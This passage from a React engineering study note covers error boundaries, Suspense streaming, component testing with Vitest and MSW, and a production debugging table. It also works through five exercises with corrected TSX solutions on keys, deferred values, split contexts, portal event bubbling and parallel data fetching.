    return { hasError: true };
  }

  componentDidCatch(error: Error, info: ErrorInfo): void {
    // Commit-Phase side effect for error telemetry
    this.props.onError?.(error, info);
  }

  render() {
    return this.state.hasError ? this.props.fallback : this.props.children;
  }
}
```

```tsx
// 2. Production react-error-boundary with resetKeys + async useErrorBoundary() bridge
import { ErrorBoundary, useErrorBoundary, type FallbackProps } from 'react-error-boundary';

function PaymentFallback({ error, resetErrorBoundary }: FallbackProps) {
  return (
    <div role="alert">
      <p>Payment panel failed: {error instanceof Error ? error.message : 'Unknown error'}</p>
      <button type="button" onClick={resetErrorBoundary}>
        Reload Panel
      </button>
    </div>
  );
}

function CheckoutActions() {
  const { showBoundary } = useErrorBoundary();

  async function handleCriticalBootstrap() {
    try {
      const res = await fetch('/api/checkout/session');
      if (!res.ok) throw new Error(`Session failed (${res.status})`);
    } catch (err) {
      // Bridges async rejections into the nearest ancestor <ErrorBoundary>
      showBoundary(err);
    }
  }

  return <button type="button" onClick={() => void handleCriticalBootstrap()}>Start</button>;
}

export function CheckoutPanel({ cartId }: { cartId: string }) {
  return (
    // Automatically resets error state whenever cartId changes
    <ErrorBoundary FallbackComponent={PaymentFallback} resetKeys={[cartId]}>
      <CheckoutActions />
    </ErrorBoundary>
  );
}
```

**Execution Rules for Error Boundaries**:
- `getDerivedStateFromError(error)` runs during the **Render Phase** (must remain pure; returns next `{ hasError: true }` state).
- `componentDidCatch(error, info)` runs during the **Commit Phase** (used for side effects such as Sentry/Datadog error reporting with `info.componentStack`).
- **What Bypasses Error Boundaries**: Event handlers (`onClick`), async timers (`setTimeout`), unhandled Promise rejections, SSR errors outside React streaming boundaries, and errors thrown inside the Error Boundary component itself. Catch async rejections explicitly and either render local error state or forward catastrophic failures with `useErrorBoundary().showBoundary(err)`.

#### `<Suspense>`, Code Splitting & Eliminating Fetch Waterfalls

`<Suspense fallback={<Skeleton />}>` intercepts thrown Promises (`React.lazy` dynamic imports, React 19 `use(promise)`, or Suspense-enabled query hooks) and shows `fallback` without blocking interactive siblings outside the boundary.

- **Fetch-on-Render Waterfall (Anti-Pattern)**: `<ProfilePage>` suspends or shows a spinner while fetching `/api/user`, then mounts `<UserPosts>` which *then* initiates `/api/posts`—serializing two round-trips (`400ms + 400ms = 800ms`).
- **Render-as-You-Fetch (Optimal)**: Initiate both `/api/user` and `/api/posts` concurrently inside a router loader (`loader: () => Promise.all(...)`), query prefetch (`queryClient.prefetchQuery`), or async Server Component *before* rendering starts, wrapping independent sections in granular `<Suspense>` boundaries so slow secondary panels never block primary content.

```tsx
import { lazy, Suspense } from 'react';

const AuditLogDrawer = lazy(() => import('./AuditLogDrawer'));

export function SecuritySettings({ showLogs }: { showLogs: boolean }) {
  return (
    <section>
      <h2>Security Controls</h2>
      {showLogs && (
        <Suspense fallback={<p role="status">Loading audit drawer chunk...</p>}>
          <AuditLogDrawer />
        </Suspense>
      )}
    </section>
  );
}
```

In SSR architectures (`renderToPipeableStream` on Node or React Server Components in Next.js), `<Suspense>` unlocks **HTML Streaming & Selective Hydration**: the server flushes the outer shell immediately (`TTFB` drops drastically), streams deferred `<Suspense>` chunks inline as `<template>` + `<script>` swap instructions once backend DB queries settle, and **prioritizes hydrating** whichever Suspense subtree the user clicks first during hydration.

---

### 4.6 Testing React Components (Vitest + React Testing Library + MSW)

Effective frontend tests follow Khorikov's test-value invariants (see [[Programming/Software Engineering/Testing/Unit Testing|Unit Testing]]): assert **observable user behavior and accessibility contracts**, never private component state, hook counts, or internal CSS classes.

1. **Query Priority Hierarchy (Enforces Accessibility)**:
   - *Primary*: `getByRole('button', { name: /save/i })`, `getByLabelText(/email/i)`, `getByText(...)` — verifies semantic ARIA roles and form labels simultaneously.
   - *Secondary*: `getByPlaceholderText`, `getByAltText`.
   - *Last Resort*: `getByTestId(...)` — only when non-semantic canvas/chart elements have no accessible text or role.
2. **Real Event Sequencing (`userEvent.setup()`) vs `fireEvent`**: `fireEvent.click` dispatches a single synthetic DOM click event. `await user.click()` / `await user.type()` from `@testing-library/user-event` dispatches the full realistic browser sequence (`pointerover`, `pointerdown`, `focus`, `mousedown`, `mouseup`, `click`, `keydown`, `input`, `keyup`) and triggers focus blur/validation bugs that `fireEvent` hides.
3. **Async Assertions**: Use `await screen.findByText(...)` (built-in `waitFor` wrapper with 1,000ms default retry) for elements appearing after async network responses; wrap multi-assertion post-async checks in `waitFor(() => { expect(...).toBe(...) })` and never put side effects (`user.click`) inside `waitFor`.
4. **Network Isolation with MSW**: Intercept real `fetch()` calls at the network layer with Mock Service Worker (`setupServer` in Vitest) rather than mocking `global.fetch` or custom API helper modules—ensuring request serialization, HTTP error codes, headers, and AbortSignals execute faithfully under test.

---

## 5. Production Debugging, Profiling & Operations Playbook

| Production Symptom | Underlying Mechanical Cause | Diagnostic Tool / Exact Command | Corrective Fix |
|---|---|---|---|
| **Lagging typing / INP > 200ms** on filterable dashboards | High-cost list re-renders synchronously on `SyncLane` every keystroke | React DevTools **Profiler** (check "Record why each component rendered") + Chrome **Performance** trace (look for Long Tasks `> 50ms` in Scripting) | Split `<input>` value (`SyncLane`) from `<HeavyGrid query={deferredQuery} />` via `useDeferredValue` + `React.memo`; virtualize rows over 500 items with `@tanstack/react-virtual` |
| **Wasted child re-renders across app** on unrelated toast/timer tick | Monolithic Context Provider passes fresh object literal `value={{ ... }}` bypassing `React.memo` | React DevTools Profiler Flamegraph highlighting gray vs colored bars ("Context changed") | Split `StateContext` vs `ActionsContext`; lift static trees into `{children}` slots; migrate rapid independent slices to Zustand selectors |
| **Input focus lost on every keystroke** or state resets unexpectedly | Subcomponent function declared inside parent (`PrevType !== NextType`), OR unstable `key={Math.random()}` | Inspect component tree in React DevTools Components tab (`Mount` flicker or shifting component names) | Hoist child component declarations to module top level; use stable database `item.id` as list `key` |
| **Silent crashes on button click** bypassing `<ErrorBoundary>` | Unhandled rejection inside async `onClick` handler or `setTimeout` | Browser Console `Uncaught (in promise)` + root `createRoot(el, { onUncaughtError })` telemetry | Wrap async handlers in `try/catch`; render inline error UI or call `useErrorBoundary().showBoundary(err)` |
| **React Hydration Error #418 / #425** in SSR apps | Server HTML differs from initial client render (`Date.now()`, `Math.random()`, `window.innerWidth`, invalid HTML nesting `<div>` inside `<p>`) | Run dev build to inspect exact attribute/text diff printed by React 19; verify HTML nesting rules | Move browser-only reads to `useSyncExternalStore` (`getServerSnapshot`) or client `useEffect`; fix invalid DOM nesting |
| **Growing JS Heap / Detached DOM Nodes** after route navigation | Leaked `window.addEventListener`, uncancelled `setInterval`, or stale `TanStack Query` infinite `gcTime` | Chrome **Memory** tab -> Take Heap Snapshot -> Filter `Detached HTMLDivElement` | Return cleanup closures from every `useEffect` and React 19 callback `ref`; configure finite `gcTime` |
| **Bloated Initial JS Bundle (> 250KB gzipped)** hurting LCP | Eagerly importing heavy chart/PDF/syntax-highlighter libraries in main entry chunk | Run `npx vite-bundle-visualizer` or `npx source-map-explorer dist/assets/*.js` | Lazy-load heavy panels behind `React.lazy(() => import(...))` + `<Suspense>` and trigger `import(...)` on hover intent |

---

## 6. Comprehensive Worked Exercises

### Exercise 1: Diagnosing List Input Corruption & Per-Keystroke Focus Loss

A team built a sortable task board below. QA reported two blocking defects:
1. Typing a private note into row `"Deploy API"` (`index 1`) and then clicking **Sort A-Z** causes the typed note to remain attached to whichever different task moves into `index 1`.
2. Typing a single character into the filter input causes the `<input>` inside every task row to lose focus immediately and emit console warnings.

```tsx
function TaskBoard({ initialTasks }: { initialTasks: { id: string; title: string }[] }) {
  const [tasks, setTasks] = useState(initialTasks);
  const [filter, setFilter] = useState('');

  function TaskRow({ task }: { task: { id: string; title: string } }) {
    return (
      <li>
        <span>{task.title}</span>
        <input placeholder="Internal note..." defaultValue="" />
      </li>
    );
  }

  return (
    <div>
      <input
        aria-label="Filter tasks"
        value={filter}
        onChange={(e) => setFilter(e.target.value)}
      />
      <button
        type="button"
        onClick={() =>
          setTasks([...tasks].sort((a, b) => a.title.localeCompare(b.title)))
        }
      >
        Sort A-Z
      </button>
      <ul>
        {tasks
          .filter((t) => t.title.toLowerCase().includes(filter.toLowerCase()))
          .map((task, idx) => (
            <TaskRow key={idx} task={task} />
          ))}
      </ul>
    </div>
  );
}
```

**Tasks**:
1. Trace the exact Fiber reconciliation mechanics responsible for both bugs.
2. Provide the complete, corrected TypeScript/TSX implementation.

### Solution 1

1. **Fiber Root Cause Diagnosis**:
   - **Bug 1 (Note Corruption via `key={idx}`)**: Each row renders an uncontrolled `<input defaultValue="" />` whose typed text lives directly inside the DOM `HTMLInputElement.value` property anchored to Fiber node `stateNode`. Because `key={idx}` assigns positional keys `0, 1, 2`, sorting moves `"Audit TLS"` from index `2` to index `0`, so React's `reconcileChildrenArray` pairs index `0`'s existing Fiber (and its live DOM `<input>` value) with `"Audit TLS"` instead of moving the original DOM node.
   - **Bug 2 (Unmounts on Every Keystroke)**: `TaskRow` is declared *inside* `TaskBoard`. Updating `filter` re-invokes `TaskBoard()`, allocating a brand-new `TaskRow` function object (`prevFiber.type !== nextElement.type`). Under Reconciliation Heuristic #1 (Cross-Type Destruction), React unmounts every `<li>` and `<input>` and mounts fresh DOM elements on every keystroke, wiping focus and uncontrolled values.

2. **Corrected Implementation**:

```tsx
import { useState } from 'react';

interface TaskItem {
  id: string;
  title: string;
}

// Hoisted to module scope: stable component function reference across all renders
function TaskRow({ task }: { task: TaskItem }) {
  return (
    <li>
      <span>{task.title}</span>
      <input aria-label={`Note for ${task.title}`} placeholder="Internal note..." defaultValue="" />
    </li>
  );
}

export function TaskBoard({ initialTasks }: { initialTasks: TaskItem[] }) {
  const [tasks, setTasks] = useState<TaskItem[]>(initialTasks);
  const [filter, setFilter] = useState('');

  // Derived synchronously during render
  const normalizedFilter = filter.trim().toLowerCase();
  const visibleTasks = normalizedFilter
    ? tasks.filter((t) => t.title.toLowerCase().includes(normalizedFilter))
    : tasks;

  function handleSort() {
    setTasks((prev) => [...prev].sort((a, b) => a.title.localeCompare(b.title)));
  }

  return (
    <section>
      <input
        aria-label="Filter tasks"
        value={filter}
        onChange={(e) => setFilter(e.target.value)}
      />
      <button type="button" onClick={handleSort}>
        Sort A-Z
      </button>
      <ul>
        {visibleTasks.map((task) => (
          <TaskRow key={task.id} task={task} />
        ))}
      </ul>
    </section>
  );
}
```

---

### Exercise 2: Fixing Input Lag & Cursor Drops in a 15,000-Row Searchable Grid

A log inspection tool filters and renders `15,000` log entries (`<LogTable rows={rows} query={query} />`), taking `~240ms` per render pass. An engineer attempted to keep typing responsive by wrapping the input setter in `startTransition`:

```tsx
<input
  value={query}
  onChange={(e) => {
    startTransition(() => setQuery(e.target.value));
  }}
/>
```

Now typing rapidly causes characters to drop visually and forces the text cursor to jump unpredictably.

**Tasks**:
1. Explain why wrapping a controlled `<input>`'s value state setter inside `startTransition` breaks typing and cursor stability.
2. Refactor the architecture using `useDeferredValue` and `React.memo` so keystrokes commit within `<= 16ms` on `SyncLane` while heavy table filtering runs interruptibly on a `TransitionLane`.

### Solution 2

1. **Why `startTransition` Breaks Controlled Inputs**:
   - Controlled `<input value={query}>` requires React to synchronize `HTMLInputElement.value` with `query` on `SyncLane` synchronously right after the user event.
   - Deferring `setQuery` to a `TransitionLane` means React yields or pauses rendering the updated `query` while keeping the old `query` in `current` Fiber state. When React temporarily falls behind rapid keystrokes or commits out of sync with native browser input updates, the controlled `value` property snaps back or resets selection caret position (`selectionStart`).
2. **Corrected Concurrent Architecture (`useDeferredValue` + `memo`)**:

```tsx
import { memo, useDeferredValue, useMemo, useState } from 'react';

interface LogRow {
  id: string;
  service: string;
  message: string;
}

// React.memo is mandatory: without it, urgent SyncLane keystrokes re-render LogTable synchronously
const LogTable = memo(function LogTable({
  rows,
  query,
}: {
  rows: LogRow[];
  query: string;
}) {
  const filtered = useMemo(() => {
    const q = query.trim().toLowerCase();
    return q
      ? rows.filter(
          (r) =>
            r.message.toLowerCase().includes(q) ||
            r.service.toLowerCase().includes(q)
        )
      : rows;
  }, [rows, query]);

  return (
    <ul aria-label="Filtered logs">
      {filtered.slice(0, 500).map((row) => (
        <li key={row.id}>
          <strong>[{row.service}]</strong> {row.message}
        </li>
      ))}
    </ul>
  );
});

export function LogViewer({ rows }: { rows: LogRow[] }) {
  const [query, setQuery] = useState(''); // Urgent SyncLane for immediate keystrokes
  const deferredQuery = useDeferredValue(query); // Deferred TransitionLane value
  const isStale = query !== deferredQuery;

  return (
    <section>
      <input
        type="search"
        aria-label="Filter log entries"
        value={query}
        onChange={(e) => setQuery(e.target.value)}
      />
      <div
        aria-busy={isStale}
        style={{ opacity: isStale ? 0.65 : 1, transition: 'opacity 100ms linear' }}
      >
        <LogTable rows={rows} query={deferredQuery} />
      </div>
    </section>
  );
}
```

When typing `"t" -> "i" -> "m" -> "e"`, `<input>` updates immediately on `SyncLane`, `LogTable` bails out via `memo` while `deferredQuery` holds the previous string, and React interrupts and discards obsolete background table renders (`"t"`, `"ti"`, `"tim"`) until `"time"` completes cleanly.

---

### Exercise 3: Eliminating a Context Re-Render Storm Across Memoized Subtrees

An application wraps the workspace in `<WorkspaceContext.Provider value={{ currentUser, alerts, dismissAlert }}>`. Every 2 seconds a WebSocket appends a new item to `alerts`. Profiling shows `<HeavyRevenueChart />`—even though it is wrapped in `React.memo` and only uses `currentUser` and `dismissAlert`—re-renders every 2 seconds, freezing chart zoom interactions.

**Tasks**:
1. Explain precisely why `React.memo(HeavyRevenueChart)` fails to prevent re-renders when `alerts` updates.
2. Refactor the Context topology using split State/Actions contexts and a stable action container so high-frequency `alerts` updates never trigger a render in `<HeavyRevenueChart />`.

### Solution 3

1. **Why `React.memo` Does Not Block Context Propagation**:
   - `React.memo` compares incoming **props** shallowly (`Object.is` per prop key). It does not intercept internal Fiber context subscriptions.
   - Because `value={{ currentUser, alerts, dismissAlert }}` constructs a brand-new object reference every time `WorkspaceProvider` renders, `!Object.is(prevValue, nextValue)` evaluates `true`. React runs `propagateContextChange`, marking **every** descendant calling `useContext(WorkspaceContext)` dirty—bypassing `React.memo` unconditionally.
2. **Refactored Split Context Topology**:

```tsx
import {
  createContext,
  memo,
  useCallback,
  useContext,
  useState,
  type ReactNode,
} from 'react';

interface User {
  id: string;
  tier: string;
}

interface AlertItem {
  id: string;
  text: string;
}

interface AlertActions {
  pushAlert: (alert: AlertItem) => void;
  dismissAlert: (id: string) => void;
}

const CurrentUserContext = createContext<User | null>(null);
const AlertsStateContext = createContext<AlertItem[]>([]);
const AlertActionsContext = createContext<AlertActions | null>(null);

export function WorkspaceProviders({
  currentUser,
  children,
}: {
  currentUser: User;
  children: ReactNode;
}) {
  const [alerts, setAlerts] = useState<AlertItem[]>([]);

  const pushAlert = useCallback((alert: AlertItem) => {
    setAlerts((prev) => [alert, ...prev].slice(0, 50));
  }, []);

  const dismissAlert = useCallback((id: string) => {
    setAlerts((prev) => prev.filter((a) => a.id !== id));
  }, []);

  // Allocated once on mount: stable object reference for entire provider lifetime
  const [actions] = useState<AlertActions>(() => ({ pushAlert, dismissAlert }));

  return (
    <CurrentUserContext.Provider value={currentUser}>
      <AlertActionsContext.Provider value={actions}>
        <AlertsStateContext.Provider value={alerts}>
          {children}
        </AlertsStateContext.Provider>
      </AlertActionsContext.Provider>
    </CurrentUserContext.Provider>
  );
}

export const HeavyRevenueChart = memo(function HeavyRevenueChart() {
  const user = useContext(CurrentUserContext);
  const actions = useContext(AlertActionsContext);

  return (
    <section aria-label="Revenue chart">
      <p>Account: {user?.id ?? 'anonymous'}</p>
      <button type="button" onClick={() => actions?.dismissAlert('banner')}>
        Acknowledge Banner
      </button>
    </section>
  );
});

export function AlertCounterBadge() {
  // Only components reading AlertsStateContext re-render on WebSocket ticks
  const alerts = useContext(AlertsStateContext);
  return <span>Active alerts: {alerts.length}</span>;
}
```

---

### Exercise 4: Fixing Portal Event Leakage, Derived State Flicker & Uncaught Async Rejections

Inspect `DocumentCard` below. Production logs report three distinct failures:
1. Clicking the **Cancel** button *inside* the `createPortal` Delete Confirmation modal bubbles up and triggers `onSelectCard(doc.id)` on the card behind the modal!
2. Toggling selection checkboxes displays a stale `selectedCount` for one frame and fails to reset when `folderId` changes.
3. When `DELETE /api/docs` returns `500`, the surrounding `<ErrorBoundary>` never activates and users receive zero feedback.

```tsx
function DocumentWorkspace({ docs, folderId, onSelectCard }: Props) {
  const [selectedIds, setSelectedIds] = useState<string[]>([]);
  const [selectedCount, setSelectedCount] = useState(0);
  const [confirmOpen, setConfirmOpen] = useState(false);

  useEffect(() => setSelectedCount(selectedIds.length), [selectedIds]);
  useEffect(() => setSelectedIds([]), [folderId]);

  async function handleConfirmDelete() {
    const res = await fetch('/api/docs', {
      method: 'DELETE',
      body: JSON.stringify(selectedIds),
    });
    if (!res.ok) throw new Error('Delete service unavailable');
    setConfirmOpen(false);
  }

  return (
    <article onClick={() => onSelectCard(folderId)}>
      <span>{selectedCount} selected</span>
      <button type="button" onClick={() => setConfirmOpen(true)}>
        Delete Selected
      </button>
      {confirmOpen &&
        createPortal(
          <div role="dialog" aria-modal="true">
            <button type="button" onClick={() => setConfirmOpen(false)}>
              Cancel
            </button>
            <button type="button" onClick={handleConfirmDelete}>
              Confirm
            </button>
          </div>,
          document.body
        )}
    </article>
  );
}
```

**Tasks**:
1. Explain the Fiber mechanism behind each of the three bugs.
2. Provide the complete refactored implementation with `key`-based reset, derived count, isolated portal propagation, and `useErrorBoundary()` integration.

### Solution 4

1. **Mechanical Diagnosis**:
   - **Portal Event Leakage**: Even though `createPortal` inserts the `<div role="dialog">` DOM node under `document.body`, React's event dispatcher bubbles synthetic events along the **Fiber `.return` chain** (`dialog` -> `DocumentWorkspace`'s `<article onClick={...}>`), firing `onSelectCard` whenever any button inside the portal is clicked without `e.stopPropagation()`.
   - **Derived State Flicker & Stale Folder Reset**: `selectedCount` duplicates `selectedIds.length` via post-paint `useEffect`, causing a wasted second render and one stale frame. Similarly, clearing `selectedIds` inside `useEffect(..., [folderId])` renders one frame with the prior folder's checked IDs before resetting.
   - **Swallowed Async Rejection**: Rejecting inside an async `onClick` handler never crosses React's synchronous render/commit try-catch boundary, becoming an unhandled promise rejection.

2. **Refactored Solution**:

```tsx
import { useState, type MouseEvent } from 'react';
import { createPortal } from 'react-dom';
import { useErrorBoundary } from 'react-error-boundary';

interface DocItem {
  id: string;
  name: string;
}

// Parent renders <DocumentWorkspace key={folderId} docs={docs} folderId={folderId} onSelectCard={...} />
// Key change resets selectedIds cleanly on the very first frame of the new folder.
export function DocumentWorkspace({
  docs,
  folderId,
  onSelectCard,
}: {
  docs: DocItem[];
  folderId: string;
  onSelectCard: (id: string) => void;
}) {
  const [selectedIds, setSelectedIds] = useState<string[]>([]);
  const [confirmOpen, setConfirmOpen] = useState(false);
  const [isDeleting, setIsDeleting] = useState(false);
  const { showBoundary } = useErrorBoundary();

  // Derived synchronously during render: zero extra renders, zero stale frame
  const selectedCount = selectedIds.length;

  function toggleId(id: string) {
    setSelectedIds((prev) =>
      prev.includes(id) ? prev.filter((item) => item !== id) : [...prev, id]
    );
  }

  async function handleConfirmDelete() {
    setIsDeleting(true);
    try {
      const res = await fetch('/api/docs', {
        method: 'DELETE',
        headers: { 'Content-Type': 'application/json' },
        body: JSON.stringify(selectedIds),
      });
      if (!res.ok) throw new Error(`HTTP ${res.status}: Delete service unavailable`);
      setSelectedIds([]);
      setConfirmOpen(false);
    } catch (err) {
      showBoundary(err); // Forwards fatal rejection cleanly to nearest <ErrorBoundary>
    } finally {
      setIsDeleting(false);
    }
  }

  function handlePortalClick(e: MouseEvent) {
    // Blocks React Fiber tree bubbling back to <article onClick>
    e.stopPropagation();
  }

  return (
    <article onClick={() => onSelectCard(folderId)}>
      <span>
        {selectedCount} of {docs.length} selected
      </span>
      <ul>
        {docs.map((doc) => (
          <li key={doc.id} onClick={(e) => e.stopPropagation()}>
            <label>
              <input
                type="checkbox"
                checked={selectedIds.includes(doc.id)}
                onChange={() => toggleId(doc.id)}
              />
              {doc.name}
            </label>
          </li>
        ))}
      </ul>
      <button
        type="button"
        disabled={selectedCount === 0}
        onClick={(e) => {
          e.stopPropagation();
          setConfirmOpen(true);
        }}
      >
        Delete Selected
      </button>

      {confirmOpen &&
        createPortal(
          <div className="modal-overlay" onClick={handlePortalClick}>
            <div role="dialog" aria-modal="true" aria-label="Delete documents">
              <p>Delete {selectedCount} documents?</p>
              <button type="button" onClick={() => setConfirmOpen(false)}>
                Cancel
              </button>
              <button
                type="button"
                disabled={isDeleting}
                onClick={() => void handleConfirmDelete()}
              >
                {isDeleting ? 'Deleting...' : 'Confirm'}
              </button>
            </div>
          </div>,
          document.body
        )}
    </article>
  );
}
```

---

### Exercise 5: Eliminating a Suspense Fetch Waterfall & Testing Error Recovery

Consider a React 19 dashboard screen using `use(promise)` inside `<Suspense>`. Currently, `<ProjectDashboard>` suspends on `projectPromise` (`350ms`) **before** rendering `<MemberList>` which only *then* calls `fetchMembers(projectId)` (`400ms`), resulting in a `750ms` serialized waterfall. Furthermore, errors on `membersPromise` crash the entire page instead of isolating the sidebar.

**Tasks**:
1. Refactor the component tree into a **Render-as-You-Fetch** topology with parallel Promise initiation and independent `<ErrorBoundary>` + `<Suspense>` isolation.
2. Write a complete Vitest + React Testing Library test asserting that when `membersPromise` rejects, the primary `<ProjectHeader>` stays rendered and interactive while the sidebar shows its fallback alert.

### Solution 5

1. **Parallel Render-as-You-Fetch Architecture**:

```tsx
// ProjectDashboard.tsx
import { Suspense, use } from 'react';
import { ErrorBoundary, type FallbackProps } from 'react-error-boundary';

export interface ProjectSummary {
  id: string;
  name: string;
  owner: string;
}

export interface ProjectMember {
  id: string;
  role: string;
  email: string;
}

function ProjectHeader({ projectPromise }: { projectPromise: Promise<ProjectSummary> }) {
  const project = use(projectPromise);
  return (
    <header>
      <h1>{project.name}</h1>
      <p>Owner: {project.owner}</p>
    </header>
  );
}

function MemberList({ membersPromise }: { membersPromise: Promise<ProjectMember[]> }) {
  const members = use(membersPromise);
  return (
    <aside aria-label="Project members">
      <h2>Members ({members.length})</h2>
      <ul>
        {members.map((m) => (
          <li key={m.id}>
            {m.email} — {m.role}
          </li>
        ))}
      </ul>
    </aside>
  );
}

function SidebarErrorFallback({ error }: FallbackProps) {
  return (
    <aside role="alert">
      Unable to load members: {error instanceof Error ? error.message : 'Unknown error'}
    </aside>
  );
}

export function ProjectDashboard({
  projectPromise,
  membersPromise,
}: {
  projectPromise: Promise<ProjectSummary>;
  membersPromise: Promise<ProjectMember[]>;
}) {
  return (
    <main>
      <ErrorBoundary fallback={<p role="alert">Failed to load project summary</p>}>
        <Suspense fallback={<p role="status">Loading project...</p>}>
          <ProjectHeader projectPromise={projectPromise} />
        </Suspense>
      </ErrorBoundary>

      <ErrorBoundary FallbackComponent={SidebarErrorFallback}>
        <Suspense fallback={<p role="status">Loading members...</p>}>
          <MemberList membersPromise={membersPromise} />
        </Suspense>
      </ErrorBoundary>
    </main>
  );
}
```

*(Note: The parent/router loader initiates `const projectPromise = fetchProject(id); const membersPromise = fetchMembers(id);` simultaneously before mounting `<ProjectDashboard>`, cutting total wait time from `750ms` to `max(350ms, 400ms) = 400ms`.)*

2. **Vitest + React Testing Library Isolation Test**:

```tsx
// ProjectDashboard.test.tsx
import { describe, expect, it, vi } from 'vitest';
import { render, screen } from '@testing-library/react';
import { ProjectDashboard, type ProjectMember, type ProjectSummary } from './ProjectDashboard';

describe('ProjectDashboard boundary isolation', () => {
  it('keeps ProjectHeader visible when parallel membersPromise rejects', async () => {
    const consoleSpy = vi.spyOn(console, 'error').mockImplementation(() => {});

    const projectPromise = Promise.resolve<ProjectSummary>({
      id: 'proj-42',
      name: 'Billing Engine v3',
      owner: 'platform-core',
    });
    const membersPromise = Promise.reject<ProjectMember[]>(
      new Error('Directory timeout')
    );

    render(
      <ProjectDashboard
        projectPromise={projectPromise}
        membersPromise={membersPromise}
      />
    );

    expect(
      await screen.findByRole('heading', { name: /Billing Engine v3/i })
    ).toBeInTheDocument();
    expect(await screen.findByRole('alert')).toHaveTextContent(
      /Unable to load members: Directory timeout/i
    );

    consoleSpy.mockRestore();
  });
});
```

---

## Related

- [[Programming/Frontend/Frontend Roadmap & Technologies|Frontend Roadmap & Technologies]] — Browser rendering pipeline, Core Web Vitals (LCP, INP, CLS), and framework trade-offs
- [[Programming/Frontend/React Hooks Guide|React Hooks Guide]] — `fiber.memoizedState` linked-list cursor internals, Effect commit timeline, React 19 hooks, and custom hooks patterns library
- [[Programming/Frontend/React Patterns Guide|React Patterns Guide]] — Slot bailouts, Split-Context Compound Components, State Reducers, polymorphic props, and virtualization
- [[Programming/Frontend/Next.js Complete Guide|Next.js Complete Guide]] — React Server Components wire format, SSR streaming, and multi-layer caching
- [[Programming/Software Engineering/Testing/Unit Testing|Unit Testing]] — Khorikov's 4 Pillars, observable behavior assertions, and deterministic test isolation
- [[Programming/Programming Hub|Programming Hub]] — Cross-domain engineering architecture index
